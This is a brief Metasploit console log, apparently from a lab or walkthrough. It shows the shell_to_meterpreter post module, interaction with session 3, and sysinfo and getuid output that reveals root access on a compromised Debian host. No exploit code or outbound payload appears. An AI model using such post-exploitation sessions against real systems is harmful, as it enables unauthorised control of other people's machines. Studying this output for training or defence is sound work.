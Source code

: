 ```
msf5 post(multi/manage/shell_to_meterpreter) > sessions 3
[*] Starting interaction with 3...

meterpreter > sysinfo
Computer     : 192.195.144.3
OS           : Debian 8.11 (Linux 5.4.0-125-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```